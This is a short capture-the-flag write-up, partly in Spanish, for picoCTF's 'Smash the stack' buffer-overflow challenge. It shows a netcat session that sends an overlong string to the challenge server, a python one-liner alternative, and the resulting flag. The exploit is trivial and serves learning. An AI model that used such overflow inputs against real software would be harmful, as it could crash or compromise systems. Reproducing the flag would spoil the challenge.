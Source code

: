 ## Description
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c). And connect with it using:
## Hints
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solution
En el archivo de vulnerabilidad decia que tenia un buffer de 100, sin embargo como uso un get() que se puede desbordar basto con llamar al servidor y darle una cadena muy larga para desbordarlo.

```bash
nc saturn.picoctf.net 61481
Input: 21dsjwuhihwenjfinwoenfuwnunwenwnvujsaicji0j09jaijsd0qjwdi0qehf80jinfb9uh0wifnquwefh0jqiwdh8w0jivhu9w8fjiwuehfjwiefhj0ifhuqu'9fjinuh0f8jiwenuh8fj0ipwneofhu0wjiefpnuh0w8ejifnowuhe0jfipnwe0hfjinpweh0jfiwnehfj0ipwmenfu0jiwehfj0iwenufhj0iwnoeufjiwnefhj0wineofuhjwenofuhwjeifnuhw08ejfipuwe80fjiweh0fjiwehf'jiw0efj'wienfj0wipefj0wienf0jiwpefj0wjifpifjmwkenofjiwnef0jiweofhuwji0efno0wjfiwh0e'9fjWHEFGYEGBFHRJ987WGYFBHINJOI8Y7WG8YBIWNOJI0EFU879EYFBINWJI0E8FH9WEF
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
```
Tambien se podia usar nc ...(servidor)... <<< $(python3 -c "print('A'*200)")
## Flag
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}

## Aditional Notes

## References
